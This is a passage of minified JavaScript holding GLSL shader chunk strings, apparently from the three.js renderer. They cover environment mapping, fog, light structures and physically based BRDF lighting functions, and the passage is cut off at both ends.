displacementBias;\\n#endif\",displacementmap_vertex:\"#ifdef USE_DISPLACEMENTMAP\\n\\ttransformed += normalize( objectNormal ) * ( texture2D( displacementMap, vDisplacementMapUv ).x * displacementScale + displacementBias );\\n#endif\",emissivemap_fragment:\"#ifdef USE_EMISSIVEMAP\\n\\tvec4 emissiveColor = texture2D( emissiveMap, vEmissiveMapUv );\\n\\ttotalEmissiveRadiance *= emissiveColor.rgb;\\n#endif\",emissivemap_pars_fragment:\"#ifdef USE_EMISSIVEMAP\\n\\tuniform sampler2D emissiveMap;\\n#endif\",colorspace_fragment:\"gl_FragColor = linearToOutputTexel( gl_FragColor );\",colorspace_pars_fragment:\"\\nconst mat3 LINEAR_SRGB_TO_LINEAR_DISPLAY_P3 = mat3(\\n\\tvec3( 0.8224621, 0.177538, 0.0 ),\\n\\tvec3( 0.0331941, 0.9668058, 0.0 ),\\n\\tvec3( 0.0170827, 0.0723974, 0.9105199 )\\n);\\nconst mat3 LINEAR_DISPLAY_P3_TO_LINEAR_SRGB = mat3(\\n\\tvec3( 1.2249401, - 0.2249404, 0.0 ),\\n\\tvec3( - 0.0420569, 1.0420571, 0.0 ),\\n\\tvec3( - 0.0196376, - 0.0786361, 1.0982735 )\\n);\\nvec4 LinearSRGBToLinearDisplayP3( in vec4 value ) {\\n\\treturn vec4( value.rgb * LINEAR_SRGB_TO_LINEAR_DISPLAY_P3, value.a );\\n}\\nvec4 LinearDisplayP3ToLinearSRGB( in vec4 value ) {\\n\\treturn vec4( value.rgb * LINEAR_DISPLAY_P3_TO_LINEAR_SRGB, value.a );\\n}\\nvec4 LinearTransferOETF( in vec4 value ) {\\n\\treturn value;\\n}\\nvec4 sRGBTransferOETF( in vec4 value ) {\\n\\treturn vec4( mix( pow( value.rgb, vec3( 0.41666 ) ) * 1.055 - vec3( 0.055 ), value.rgb * 12.92, vec3( lessThanEqual( value.rgb, vec3( 0.0031308 ) ) ) ), value.a );\\n}\",envmap_fragment:\"#ifdef USE_ENVMAP\\n\\t#ifdef ENV_WORLDPOS\\n\\t\\tvec3 cameraToFrag;\\n\\t\\tif ( isOrthographic ) {\\n\\t\\t\\tcameraToFrag = normalize( vec3( - viewMatrix[ 0 ][ 2 ], - viewMatrix[ 1 ][ 2 ], - viewMatrix[ 2 ][ 2 ] ) );\\n\\t\\t} else {\\n\\t\\t\\tcameraToFrag = normalize( vWorldPosition - cameraPosition );\\n\\t\\t}\\n\\t\\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\\n\\t\\t#ifdef ENVMAP_MODE_REFLECTION\\n\\t\\t\\tvec3 reflectVec = reflect( cameraToFrag, worldNormal );\\n\\t\\t#else\\n\\t\\t\\tvec3 reflectVec = refract( cameraToFrag, worldNormal, refractionRatio );\\n\\t\\t#endif\\n\\t#else\\n\\t\\tvec3 reflectVec = vReflect;\\n\\t#endif\\n\\t#ifdef ENVMAP_TYPE_CUBE\\n\\t\\tvec4 envColor = textureCube( envMap, envMapRotation * vec3( flipEnvMap * reflectVec.x, reflectVec.yz ) );\\n\\t#else\\n\\t\\tvec4 envColor = vec4( 0.0 );\\n\\t#endif\\n\\t#ifdef ENVMAP_BLENDING_MULTIPLY\\n\\t\\toutgoingLight = mix( outgoingLight, outgoingLight * envColor.xyz, specularStrength * reflectivity );\\n\\t#elif defined( ENVMAP_BLENDING_MIX )\\n\\t\\toutgoingLight = mix( outgoingLight, envColor.xyz, specularStrength * reflectivity );\\n\\t#elif defined( ENVMAP_BLENDING_ADD )\\n\\t\\toutgoingLight += envColor.xyz * specularStrength * reflectivity;\\n\\t#endif\\n#endif\",envmap_common_pars_fragment:\"#ifdef USE_ENVMAP\\n\\tuniform float envMapIntensity;\\n\\tuniform float flipEnvMap;\\n\\tuniform mat3 envMapRotation;\\n\\t#ifdef ENVMAP_TYPE_CUBE\\n\\t\\tuniform samplerCube envMap;\\n\\t#else\\n\\t\\tuniform sampler2D envMap;\\n\\t#endif\\n\\t\\n#endif\",envmap_pars_fragment:\"#ifdef USE_ENVMAP\\n\\tuniform float reflectivity;\\n\\t#if defined( USE_BUMPMAP ) || defined( USE_NORMALMAP ) || defined( PHONG ) || defined( LAMBERT )\\n\\t\\t#define ENV_WORLDPOS\\n\\t#endif\\n\\t#ifdef ENV_WORLDPOS\\n\\t\\tvarying vec3 vWorldPosition;\\n\\t\\tuniform float refractionRatio;\\n\\t#else\\n\\t\\tvarying vec3 vReflect;\\n\\t#endif\\n#endif\",envmap_pars_vertex:\"#ifdef USE_ENVMAP\\n\\t#if defined( USE_BUMPMAP ) || defined( USE_NORMALMAP ) || defined( PHONG ) || defined( LAMBERT )\\n\\t\\t#define ENV_WORLDPOS\\n\\t#endif\\n\\t#ifdef ENV_WORLDPOS\\n\\t\\t\\n\\t\\tvarying vec3 vWorldPosition;\\n\\t#else\\n\\t\\tvarying vec3 vReflect;\\n\\t\\tuniform float refractionRatio;\\n\\t#endif\\n#endif\",envmap_physical_pars_fragment:\"#ifdef USE_ENVMAP\\n\\tvec3 getIBLIrradiance( const in vec3 normal ) {\\n\\t\\t#ifdef ENVMAP_TYPE_CUBE_UV\\n\\t\\t\\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\\n\\t\\t\\tvec4 envMapColor = textureCubeUV( envMap, envMapRotation * worldNormal, 1.0 );\\n\\t\\t\\treturn PI * envMapColor.rgb * envMapIntensity;\\n\\t\\t#else\\n\\t\\t\\treturn vec3( 0.0 );\\n\\t\\t#endif\\n\\t}\\n\\tvec3 getIBLRadiance( const in vec3 viewDir, const in vec3 normal, const in float roughness ) {\\n\\t\\t#ifdef ENVMAP_TYPE_CUBE_UV\\n\\t\\t\\tvec3 reflectVec = reflect( - viewDir, normal );\\n\\t\\t\\treflectVec = normalize( mix( reflectVec, normal, roughness * roughness) );\\n\\t\\t\\treflectVec = inverseTransformDirection( reflectVec, viewMatrix );\\n\\t\\t\\tvec4 envMapColor = textureCubeUV( envMap, envMapRotation * reflectVec, roughness );\\n\\t\\t\\treturn envMapColor.rgb * envMapIntensity;\\n\\t\\t#else\\n\\t\\t\\treturn vec3( 0.0 );\\n\\t\\t#endif\\n\\t}\\n\\t#ifdef USE_ANISOTROPY\\n\\t\\tvec3 getIBLAnisotropyRadiance( const in vec3 viewDir, const in vec3 normal, const in float roughness, const in vec3 bitangent, const in float anisotropy ) {\\n\\t\\t\\t#ifdef ENVMAP_TYPE_CUBE_UV\\n\\t\\t\\t\\tvec3 bentNormal = cross( bitangent, viewDir );\\n\\t\\t\\t\\tbentNormal = normalize( cross( bentNormal, bitangent ) );\\n\\t\\t\\t\\tbentNormal = normalize( mix( bentNormal, normal, pow2( pow2( 1.0 - anisotropy * ( 1.0 - roughness ) ) ) ) );\\n\\t\\t\\t\\treturn getIBLRadiance( viewDir, bentNormal, roughness );\\n\\t\\t\\t#else\\n\\t\\t\\t\\treturn vec3( 0.0 );\\n\\t\\t\\t#endif\\n\\t\\t}\\n\\t#endif\\n#endif\",envmap_vertex:\"#ifdef USE_ENVMAP\\n\\t#ifdef ENV_WORLDPOS\\n\\t\\tvWorldPosition = worldPosition.xyz;\\n\\t#else\\n\\t\\tvec3 cameraToVertex;\\n\\t\\tif ( isOrthographic ) {\\n\\t\\t\\tcameraToVertex = normalize( vec3( - viewMatrix[ 0 ][ 2 ], - viewMatrix[ 1 ][ 2 ], - viewMatrix[ 2 ][ 2 ] ) );\\n\\t\\t} else {\\n\\t\\t\\tcameraToVertex = normalize( worldPosition.xyz - cameraPosition );\\n\\t\\t}\\n\\t\\tvec3 worldNormal = inverseTransformDirection( transformedNormal, viewMatrix );\\n\\t\\t#ifdef ENVMAP_MODE_REFLECTION\\n\\t\\t\\tvReflect = reflect( cameraToVertex, worldNormal );\\n\\t\\t#else\\n\\t\\t\\tvReflect = refract( cameraToVertex, worldNormal, refractionRatio );\\n\\t\\t#endif\\n\\t#endif\\n#endif\",fog_vertex:\"#ifdef USE_FOG\\n\\tvFogDepth = - mvPosition.z;\\n#endif\",fog_pars_vertex:\"#ifdef USE_FOG\\n\\tvarying float vFogDepth;\\n#endif\",fog_fragment:\"#ifdef USE_FOG\\n\\t#ifdef FOG_EXP2\\n\\t\\tfloat fogFactor = 1.0 - exp( - fogDensity * fogDensity * vFogDepth * vFogDepth );\\n\\t#else\\n\\t\\tfloat fogFactor = smoothstep( fogNear, fogFar, vFogDepth );\\n\\t#endif\\n\\tgl_FragColor.rgb = mix( gl_FragColor.rgb, fogColor, fogFactor );\\n#endif\",fog_pars_fragment:\"#ifdef USE_FOG\\n\\tuniform vec3 fogColor;\\n\\tvarying float vFogDepth;\\n\\t#ifdef FOG_EXP2\\n\\t\\tuniform float fogDensity;\\n\\t#else\\n\\t\\tuniform float fogNear;\\n\\t\\tuniform float fogFar;\\n\\t#endif\\n#endif\",gradientmap_pars_fragment:\"#ifdef USE_GRADIENTMAP\\n\\tuniform sampler2D gradientMap;\\n#endif\\nvec3 getGradientIrradiance( vec3 normal, vec3 lightDirection ) {\\n\\tfloat dotNL = dot( normal, lightDirection );\\n\\tvec2 coord = vec2( dotNL * 0.5 + 0.5, 0.0 );\\n\\t#ifdef USE_GRADIENTMAP\\n\\t\\treturn vec3( texture2D( gradientMap, coord ).r );\\n\\t#else\\n\\t\\tvec2 fw = fwidth( coord ) * 0.5;\\n\\t\\treturn mix( vec3( 0.7 ), vec3( 1.0 ), smoothstep( 0.7 - fw.x, 0.7 + fw.x, coord.x ) );\\n\\t#endif\\n}\",lightmap_pars_fragment:\"#ifdef USE_LIGHTMAP\\n\\tuniform sampler2D lightMap;\\n\\tuniform float lightMapIntensity;\\n#endif\",lights_lambert_fragment:\"LambertMaterial material;\\nmaterial.diffuseColor = diffuseColor.rgb;\\nmaterial.specularStrength = specularStrength;\",lights_lambert_pars_fragment:\"varying vec3 vViewPosition;\\nstruct LambertMaterial {\\n\\tvec3 diffuseColor;\\n\\tfloat specularStrength;\\n};\\nvoid RE_Direct_Lambert( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in LambertMaterial material, inout ReflectedLight reflectedLight ) {\\n\\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\\n\\tvec3 irradiance = dotNL * directLight.color;\\n\\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\nvoid RE_IndirectDiffuse_Lambert( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in LambertMaterial material, inout ReflectedLight reflectedLight ) {\\n\\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\n#define RE_Direct\\t\\t\\t\\tRE_Direct_Lambert\\n#define RE_IndirectDiffuse\\t\\tRE_IndirectDiffuse_Lambert\",lights_pars_begin:\"uniform bool receiveShadow;\\nuniform vec3 ambientLightColor;\\n#if defined( USE_LIGHT_PROBES )\\n\\tuniform vec3 lightProbe[ 9 ];\\n#endif\\nvec3 shGetIrradianceAt( in vec3 normal, in vec3 shCoefficients[ 9 ] ) {\\n\\tfloat x = normal.x, y = normal.y, z = normal.z;\\n\\tvec3 result = shCoefficients[ 0 ] * 0.886227;\\n\\tresult += shCoefficients[ 1 ] * 2.0 * 0.511664 * y;\\n\\tresult += shCoefficients[ 2 ] * 2.0 * 0.511664 * z;\\n\\tresult += shCoefficients[ 3 ] * 2.0 * 0.511664 * x;\\n\\tresult += shCoefficients[ 4 ] * 2.0 * 0.429043 * x * y;\\n\\tresult += shCoefficients[ 5 ] * 2.0 * 0.429043 * y * z;\\n\\tresult += shCoefficients[ 6 ] * ( 0.743125 * z * z - 0.247708 );\\n\\tresult += shCoefficients[ 7 ] * 2.0 * 0.429043 * x * z;\\n\\tresult += shCoefficients[ 8 ] * 0.429043 * ( x * x - y * y );\\n\\treturn result;\\n}\\nvec3 getLightProbeIrradiance( const in vec3 lightProbe[ 9 ], const in vec3 normal ) {\\n\\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\\n\\tvec3 irradiance = shGetIrradianceAt( worldNormal, lightProbe );\\n\\treturn irradiance;\\n}\\nvec3 getAmbientLightIrradiance( const in vec3 ambientLightColor ) {\\n\\tvec3 irradiance = ambientLightColor;\\n\\treturn irradiance;\\n}\\nfloat getDistanceAttenuation( const in float lightDistance, const in float cutoffDistance, const in float decayExponent ) {\\n\\tfloat distanceFalloff = 1.0 / max( pow( lightDistance, decayExponent ), 0.01 );\\n\\tif ( cutoffDistance > 0.0 ) {\\n\\t\\tdistanceFalloff *= pow2( saturate( 1.0 - pow4( lightDistance / cutoffDistance ) ) );\\n\\t}\\n\\treturn distanceFalloff;\\n}\\nfloat getSpotAttenuation( const in float coneCosine, const in float penumbraCosine, const in float angleCosine ) {\\n\\treturn smoothstep( coneCosine, penumbraCosine, angleCosine );\\n}\\n#if NUM_DIR_LIGHTS > 0\\n\\tstruct DirectionalLight {\\n\\t\\tvec3 direction;\\n\\t\\tvec3 color;\\n\\t};\\n\\tuniform DirectionalLight directionalLights[ NUM_DIR_LIGHTS ];\\n\\tvoid getDirectionalLightInfo( const in DirectionalLight directionalLight, out IncidentLight light ) {\\n\\t\\tlight.color = directionalLight.color;\\n\\t\\tlight.direction = directionalLight.direction;\\n\\t\\tlight.visible = true;\\n\\t}\\n#endif\\n#if NUM_POINT_LIGHTS > 0\\n\\tstruct PointLight {\\n\\t\\tvec3 position;\\n\\t\\tvec3 color;\\n\\t\\tfloat distance;\\n\\t\\tfloat decay;\\n\\t};\\n\\tuniform PointLight pointLights[ NUM_POINT_LIGHTS ];\\n\\tvoid getPointLightInfo( const in PointLight pointLight, const in vec3 geometryPosition, out IncidentLight light ) {\\n\\t\\tvec3 lVector = pointLight.position - geometryPosition;\\n\\t\\tlight.direction = normalize( lVector );\\n\\t\\tfloat lightDistance = length( lVector );\\n\\t\\tlight.color = pointLight.color;\\n\\t\\tlight.color *= getDistanceAttenuation( lightDistance, pointLight.distance, pointLight.decay );\\n\\t\\tlight.visible = ( light.color != vec3( 0.0 ) );\\n\\t}\\n#endif\\n#if NUM_SPOT_LIGHTS > 0\\n\\tstruct SpotLight {\\n\\t\\tvec3 position;\\n\\t\\tvec3 direction;\\n\\t\\tvec3 color;\\n\\t\\tfloat distance;\\n\\t\\tfloat decay;\\n\\t\\tfloat coneCos;\\n\\t\\tfloat penumbraCos;\\n\\t};\\n\\tuniform SpotLight spotLights[ NUM_SPOT_LIGHTS ];\\n\\tvoid getSpotLightInfo( const in SpotLight spotLight, const in vec3 geometryPosition, out IncidentLight light ) {\\n\\t\\tvec3 lVector = spotLight.position - geometryPosition;\\n\\t\\tlight.direction = normalize( lVector );\\n\\t\\tfloat angleCos = dot( light.direction, spotLight.direction );\\n\\t\\tfloat spotAttenuation = getSpotAttenuation( spotLight.coneCos, spotLight.penumbraCos, angleCos );\\n\\t\\tif ( spotAttenuation > 0.0 ) {\\n\\t\\t\\tfloat lightDistance = length( lVector );\\n\\t\\t\\tlight.color = spotLight.color * spotAttenuation;\\n\\t\\t\\tlight.color *= getDistanceAttenuation( lightDistance, spotLight.distance, spotLight.decay );\\n\\t\\t\\tlight.visible = ( light.color != vec3( 0.0 ) );\\n\\t\\t} else {\\n\\t\\t\\tlight.color = vec3( 0.0 );\\n\\t\\t\\tlight.visible = false;\\n\\t\\t}\\n\\t}\\n#endif\\n#if NUM_RECT_AREA_LIGHTS > 0\\n\\tstruct RectAreaLight {\\n\\t\\tvec3 color;\\n\\t\\tvec3 position;\\n\\t\\tvec3 halfWidth;\\n\\t\\tvec3 halfHeight;\\n\\t};\\n\\tuniform sampler2D ltc_1;\\tuniform sampler2D ltc_2;\\n\\tuniform RectAreaLight rectAreaLights[ NUM_RECT_AREA_LIGHTS ];\\n#endif\\n#if NUM_HEMI_LIGHTS > 0\\n\\tstruct HemisphereLight {\\n\\t\\tvec3 direction;\\n\\t\\tvec3 skyColor;\\n\\t\\tvec3 groundColor;\\n\\t};\\n\\tuniform HemisphereLight hemisphereLights[ NUM_HEMI_LIGHTS ];\\n\\tvec3 getHemisphereLightIrradiance( const in HemisphereLight hemiLight, const in vec3 normal ) {\\n\\t\\tfloat dotNL = dot( normal, hemiLight.direction );\\n\\t\\tfloat hemiDiffuseWeight = 0.5 * dotNL + 0.5;\\n\\t\\tvec3 irradiance = mix( hemiLight.groundColor, hemiLight.skyColor, hemiDiffuseWeight );\\n\\t\\treturn irradiance;\\n\\t}\\n#endif\",lights_toon_fragment:\"ToonMaterial material;\\nmaterial.diffuseColor = diffuseColor.rgb;\",lights_toon_pars_fragment:\"varying vec3 vViewPosition;\\nstruct ToonMaterial {\\n\\tvec3 diffuseColor;\\n};\\nvoid RE_Direct_Toon( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in ToonMaterial material, inout ReflectedLight reflectedLight ) {\\n\\tvec3 irradiance = getGradientIrradiance( geometryNormal, directLight.direction ) * directLight.color;\\n\\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\nvoid RE_IndirectDiffuse_Toon( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in ToonMaterial material, inout ReflectedLight reflectedLight ) {\\n\\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\n#define RE_Direct\\t\\t\\t\\tRE_Direct_Toon\\n#define RE_IndirectDiffuse\\t\\tRE_IndirectDiffuse_Toon\",lights_phong_fragment:\"BlinnPhongMaterial material;\\nmaterial.diffuseColor = diffuseColor.rgb;\\nmaterial.specularColor = specular;\\nmaterial.specularShininess = shininess;\\nmaterial.specularStrength = specularStrength;\",lights_phong_pars_fragment:\"varying vec3 vViewPosition;\\nstruct BlinnPhongMaterial {\\n\\tvec3 diffuseColor;\\n\\tvec3 specularColor;\\n\\tfloat specularShininess;\\n\\tfloat specularStrength;\\n};\\nvoid RE_Direct_BlinnPhong( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in BlinnPhongMaterial material, inout ReflectedLight reflectedLight ) {\\n\\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\\n\\tvec3 irradiance = dotNL * directLight.color;\\n\\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n\\treflectedLight.directSpecular += irradiance * BRDF_BlinnPhong( directLight.direction, geometryViewDir, geometryNormal, material.specularColor, material.specularShininess ) * material.specularStrength;\\n}\\nvoid RE_IndirectDiffuse_BlinnPhong( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in BlinnPhongMaterial material, inout ReflectedLight reflectedLight ) {\\n\\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\n#define RE_Direct\\t\\t\\t\\tRE_Direct_BlinnPhong\\n#define RE_IndirectDiffuse\\t\\tRE_IndirectDiffuse_BlinnPhong\",lights_physical_fragment:\"PhysicalMaterial material;\\nmaterial.diffuseColor = diffuseColor.rgb * ( 1.0 - metalnessFactor );\\nvec3 dxy = max( abs( dFdx( nonPerturbedNormal ) ), abs( dFdy( nonPerturbedNormal ) ) );\\nfloat geometryRoughness = max( max( dxy.x, dxy.y ), dxy.z );\\nmaterial.roughness = max( roughnessFactor, 0.0525 );material.roughness += geometryRoughness;\\nmaterial.roughness = min( material.roughness, 1.0 );\\n#ifdef IOR\\n\\tmaterial.ior = ior;\\n\\t#ifdef USE_SPECULAR\\n\\t\\tfloat specularIntensityFactor = specularIntensity;\\n\\t\\tvec3 specularColorFactor = specularColor;\\n\\t\\t#ifdef USE_SPECULAR_COLORMAP\\n\\t\\t\\tspecularColorFactor *= texture2D( specularColorMap, vSpecularColorMapUv ).rgb;\\n\\t\\t#endif\\n\\t\\t#ifdef USE_SPECULAR_INTENSITYMAP\\n\\t\\t\\tspecularIntensityFactor *= texture2D( specularIntensityMap, vSpecularIntensityMapUv ).a;\\n\\t\\t#endif\\n\\t\\tmaterial.specularF90 = mix( specularIntensityFactor, 1.0, metalnessFactor );\\n\\t#else\\n\\t\\tfloat specularIntensityFactor = 1.0;\\n\\t\\tvec3 specularColorFactor = vec3( 1.0 );\\n\\t\\tmaterial.specularF90 = 1.0;\\n\\t#endif\\n\\tmaterial.specularColor = mix( min( pow2( ( material.ior - 1.0 ) / ( material.ior + 1.0 ) ) * specularColorFactor, vec3( 1.0 ) ) * specularIntensityFactor, diffuseColor.rgb, metalnessFactor );\\n#else\\n\\tmaterial.specularColor = mix( vec3( 0.04 ), diffuseColor.rgb, metalnessFactor );\\n\\tmaterial.specularF90 = 1.0;\\n#endif\\n#ifdef USE_CLEARCOAT\\n\\tmaterial.clearcoat = clearcoat;\\n\\tmaterial.clearcoatRoughness = clearcoatRoughness;\\n\\tmaterial.clearcoatF0 = vec3( 0.04 );\\n\\tmaterial.clearcoatF90 = 1.0;\\n\\t#ifdef USE_CLEARCOATMAP\\n\\t\\tmaterial.clearcoat *= texture2D( clearcoatMap, vClearcoatMapUv ).x;\\n\\t#endif\\n\\t#ifdef USE_CLEARCOAT_ROUGHNESSMAP\\n\\t\\tmaterial.clearcoatRoughness *= texture2D( clearcoatRoughnessMap, vClearcoatRoughnessMapUv ).y;\\n\\t#endif\\n\\tmaterial.clearcoat = saturate( material.clearcoat );\\tmaterial.clearcoatRoughness = max( material.clearcoatRoughness, 0.0525 );\\n\\tmaterial.clearcoatRoughness += geometryRoughness;\\n\\tmaterial.clearcoatRoughness = min( material.clearcoatRoughness, 1.0 );\\n#endif\\n#ifdef USE_DISPERSION\\n\\tmaterial.dispersion = dispersion;\\n#endif\\n#ifdef USE_IRIDESCENCE\\n\\tmaterial.iridescence = iridescence;\\n\\tmaterial.iridescenceIOR = iridescenceIOR;\\n\\t#ifdef USE_IRIDESCENCEMAP\\n\\t\\tmaterial.iridescence *= texture2D( iridescenceMap, vIridescenceMapUv ).r;\\n\\t#endif\\n\\t#ifdef USE_IRIDESCENCE_THICKNESSMAP\\n\\t\\tmaterial.iridescenceThickness = (iridescenceThicknessMaximum - iridescenceThicknessMinimum) * texture2D( iridescenceThicknessMap, vIridescenceThicknessMapUv ).g + iridescenceThicknessMinimum;\\n\\t#else\\n\\t\\tmaterial.iridescenceThickness = iridescenceThicknessMaximum;\\n\\t#endif\\n#endif\\n#ifdef USE_SHEEN\\n\\tmaterial.sheenColor = sheenColor;\\n\\t#ifdef USE_SHEEN_COLORMAP\\n\\t\\tmaterial.sheenColor *= texture2D( sheenColorMap, vSheenColorMapUv ).rgb;\\n\\t#endif\\n\\tmaterial.sheenRoughness = clamp( sheenRoughness, 0.07, 1.0 );\\n\\t#ifdef USE_SHEEN_ROUGHNESSMAP\\n\\t\\tmaterial.sheenRoughness *= texture2D( sheenRoughnessMap, vSheenRoughnessMapUv ).a;\\n\\t#endif\\n#endif\\n#ifdef USE_ANISOTROPY\\n\\t#ifdef USE_ANISOTROPYMAP\\n\\t\\tmat2 anisotropyMat = mat2( anisotropyVector.x, anisotropyVector.y, - anisotropyVector.y, anisotropyVector.x );\\n\\t\\tvec3 anisotropyPolar = texture2D( anisotropyMap, vAnisotropyMapUv ).rgb;\\n\\t\\tvec2 anisotropyV = anisotropyMat * normalize( 2.0 * anisotropyPolar.rg - vec2( 1.0 ) ) * anisotropyPolar.b;\\n\\t#else\\n\\t\\tvec2 anisotropyV = anisotropyVector;\\n\\t#endif\\n\\tmaterial.anisotropy = length( anisotropyV );\\n\\tif( material.anisotropy == 0.0 ) {\\n\\t\\tanisotropyV = vec2( 1.0, 0.0 );\\n\\t} else {\\n\\t\\tanisotropyV /= material.anisotropy;\\n\\t\\tmaterial.anisotropy = saturate( material.anisotropy );\\n\\t}\\n\\tmaterial.alphaT = mix( pow2( material.roughness ), 1.0, pow2( material.anisotropy ) );\\n\\tmaterial.anisotropyT = tbn[ 0 ] * anisotropyV.x + tbn[ 1 ] * anisotropyV.y;\\n\\tmaterial.anisotropyB = tbn[ 1 ] * anisotropyV.x - tbn[ 0 ] * anisotropyV.y;\\n#endif\",lights_physical_pars_fragment:\"struct PhysicalMaterial {\\n\\tvec3 diffuseColor;\\n\\tfloat roughness;\\n\\tvec3 specularColor;\\n\\tfloat specularF90;\\n\\tfloat dispersion;\\n\\t#ifdef USE_CLEARCOAT\\n\\t\\tfloat clearcoat;\\n\\t\\tfloat clearcoatRoughness;\\n\\t\\tvec3 clearcoatF0;\\n\\t\\tfloat clearcoatF90;\\n\\t#endif\\n\\t#ifdef USE_IRIDESCENCE\\n\\t\\tfloat iridescence;\\n\\t\\tfloat iridescenceIOR;\\n\\t\\tfloat iridescenceThickness;\\n\\t\\tvec3 iridescenceFresnel;\\n\\t\\tvec3 iridescenceF0;\\n\\t#endif\\n\\t#ifdef USE_SHEEN\\n\\t\\tvec3 sheenColor;\\n\\t\\tfloat sheenRoughness;\\n\\t#endif\\n\\t#ifdef IOR\\n\\t\\tfloat ior;\\n\\t#endif\\n\\t#ifdef USE_TRANSMISSION\\n\\t\\tfloat transmission;\\n\\t\\tfloat transmissionAlpha;\\n\\t\\tfloat thickness;\\n\\t\\tfloat attenuationDistance;\\n\\t\\tvec3 attenuationColor;\\n\\t#endif\\n\\t#ifdef USE_ANISOTROPY\\n\\t\\tfloat anisotropy;\\n\\t\\tfloat alphaT;\\n\\t\\tvec3 anisotropyT;\\n\\t\\tvec3 anisotropyB;\\n\\t#endif\\n};\\nvec3 clearcoatSpecularDirect = vec3( 0.0 );\\nvec3 clearcoatSpecularIndirect = vec3( 0.0 );\\nvec3 sheenSpecularDirect = vec3( 0.0 );\\nvec3 sheenSpecularIndirect = vec3(0.0 );\\nvec3 Schlick_to_F0( const in vec3 f, const in float f90, const in float dotVH ) {\\n    float x = clamp( 1.0 - dotVH, 0.0, 1.0 );\\n    float x2 = x * x;\\n    float x5 = clamp( x * x2 * x2, 0.0, 0.9999 );\\n    return ( f - vec3( f90 ) * x5 ) / ( 1.0 - x5 );\\n}\\nfloat V_GGX_SmithCorrelated( const in float alpha, const in float dotNL, const in float dotNV ) {\\n\\tfloat a2 = pow2( alpha );\\n\\tfloat gv = dotNL * sqrt( a2 + ( 1.0 - a2 ) * pow2( dotNV ) );\\n\\tfloat gl = dotNV * sqrt( a2 + ( 1.0 - a2 ) * pow2( dotNL ) );\\n\\treturn 0.5 / max( gv + gl, EPSILON );\\n}\\nfloat D_GGX( const in float alpha, const in float dotNH ) {\\n\\tfloat a2 = pow2( alpha );\\n\\tfloat denom = pow2( dotNH ) * ( a2 - 1.0 ) + 1.0;\\n\\treturn RECIPROCAL_PI * a2 / pow2( denom );\\n}\\n#ifdef USE_ANISOTROPY\\n\\tfloat V_GGX_SmithCorrelated_Anisotropic( const in float alphaT, const in float alphaB, const in float dotTV, const in float dotBV, const in float dotTL, const in float dotBL, const in float dotNV, const in float dotNL ) {\\n\\t\\tfloat gv = dotNL * length( vec3( alphaT * dotTV, alphaB * dotBV, dotNV ) );\\n\\t\\tfloat gl = dotNV * length( vec3( alphaT * dotTL, alphaB * dotBL, dotNL ) );\\n\\t\\tfloat v = 0.5 / ( gv + gl );\\n\\t\\treturn saturate(v);\\n\\t}\\n\\tfloat D_GGX_Anisotropic( const in float alphaT, const in float alphaB, const in float dotNH, const in float dotTH, const in float dotBH ) {\\n\\t\\tfloat a2 = alphaT * alphaB;\\n\\t\\thighp vec3 v = vec3( alphaB * dotTH, alphaT * dotBH, a2 * dotNH );\\n\\t\\thighp float v2 = dot( v, v );\\n\\t\\tfloat w2 = a2 / v2;\\n\\t\\treturn RECIPROCAL_PI * a2 * pow2 ( w2 );\\n\\t}\\n#endif\\n#ifdef USE_CLEARCOAT\\n\\tvec3 BRDF_GGX_Clearcoat( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in PhysicalMaterial material) {\\n\\t\\tvec3 f0 = material.clearcoatF0;\\n\\t\\tfloat f90 = material.clearcoatF90;\\n\\t\\tfloat roughness = material.clearcoatRoughness;\\n\\t\\tfloat alpha = pow2( roughness );\\n\\t\\tvec3 halfDir = normalize( lightDir + viewDir );\\n\\t\\tfloat dotNL = saturate( dot( normal, lightDir ) );\\n\\t\\tfloat dotNV = saturate( dot( normal, viewDir ) );\\n\\t\\tfloat dotNH = saturate( dot( normal, halfDir ) );\\n\\t\\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\\n\\t\\tvec3 F = F_Schlick( f0, f90, dotVH );\\n\\t\\tfloat V = V_GGX_SmithCorrelated( alpha, dotNL, dotNV );\\n\\t\\tfloat D = D_GGX( alpha, dotNH );\\n\\t\\treturn F * ( V * D );\\n\\t}\\n#endif\\nvec3 BRDF_GGX( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in PhysicalMaterial material ) {\\n\\tvec3 f0 = material.specularColor;\\n\\tfloat f90 = material.specularF90;\\n\\tfloat roughness = material.roughness;\\n\\tfloat alpha = pow2( roughness );\\n\\tvec3 halfDir = normalize( lightDir + viewDir );\\n\\tfloat dotNL = saturate( dot( normal, lightDir ) );\\n\\tfloat dotNV = saturate( dot( normal, viewDir ) );\\n\\tfloat dotNH = saturate( dot( normal, halfDir ) );\\n\\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\\n\\tvec3 F = F_Schlick( f0, f90, dotVH );\\n\\t#ifdef USE_IRIDESCENCE\\n\\t\\tF = mix( F, material.iridescenceFresnel, material.iridescence 